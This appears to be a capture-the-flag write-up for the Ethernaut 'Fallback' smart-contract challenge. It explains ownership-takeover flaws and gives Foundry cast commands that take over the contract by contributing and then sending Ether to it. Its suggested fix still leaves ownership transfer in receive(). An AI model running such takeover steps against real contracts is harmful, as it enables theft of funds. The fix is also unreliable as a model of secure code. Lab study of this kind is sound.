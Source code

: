 # Fallback

Claim ownership of the contract.

## Vulnerability

### Ownership Takeover in `contribute` function

The `contribute` function changes the owner of the contract if the `msg.sender`'s contributions exceed the current owner's contributions. This could allow an attacker to take over the contract by simply contributing more than the current owner.

### Ownership Takeover in receive function

The `receive` function, which is called when the contract is sent Ether without data, changes the owner of the contract to `msg.sender` if `msg.sender` has made any contributions. This means that anyone who has made contributions can take over the contract by sending Ether to it.

### Potential for Denial of Service

The `withdraw` function transfers the entire balance of the contract to the owner. If the owner's address is a contract with a fallback function that reverts, or if the owner's address is unable to receive Ether for any reason, this could prevent the `withdraw` function from being executed successfully, effectively locking the funds in the contract.

### Lack of Input Validation

The `contribute` function requires that the value of Ether sent is less than 0.001 Ether, but there's no similar check in the `receive` function. This could lead to unexpected behavior if someone sends more than 0.001 Ether to the contract without data.

## Attack

1. cast call $CONTRACT_ADDRESS "owner()" --rpc-url $ALCHEMY_RPC_URL
2. cast call $CONTRACT_ADDRESS "getContribution()" --rpc-url $ALCHEMY_RPC_URL --from $ACCOUNT_ADDRESS

3. cast send $CONTRACT_ADDRESS "contribute()" --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL

4. # {value: msg.value}("")
cast send $CONTRACT_ADDRESS --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL

## Fix

```javascript
function withdraw() public onlyOwner {
    require(address(this).balance > 0, "Insufficient funds");
    (bool success, ) = payable(owner).call{value: address(this).balance}("");
    require(success, "Transfer failed");
}

receive() external payable {
    require(msg.value > 0 && msg.value < 0.001 ether && contributions[msg.sender] > 0);
    if (contributions[msg.sender] + msg.value > contributions[owner]) {
        owner = msg.sender;
    }
    contributions[msg.sender] += msg.value;
}
```